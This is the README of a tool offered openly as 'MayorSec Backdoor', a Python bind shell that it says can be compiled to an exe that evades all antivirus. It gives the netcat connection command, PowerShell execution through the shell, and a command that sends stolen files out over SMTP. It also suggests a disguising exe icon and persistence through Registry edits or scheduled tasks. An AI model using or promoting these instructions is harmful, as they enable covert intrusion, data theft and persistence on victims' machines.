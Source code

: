 # MayorSec Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_shield)
### Fully functioning bind-type backdoor
![MayorSecBackdoorLite](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration
![SMTPExfil](/images/smtpexfil.png)

MayorSec Backdoor has built in exfiltration functionality via SMTP.  Use the below format from the command line.

```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>```

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 


## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_large)
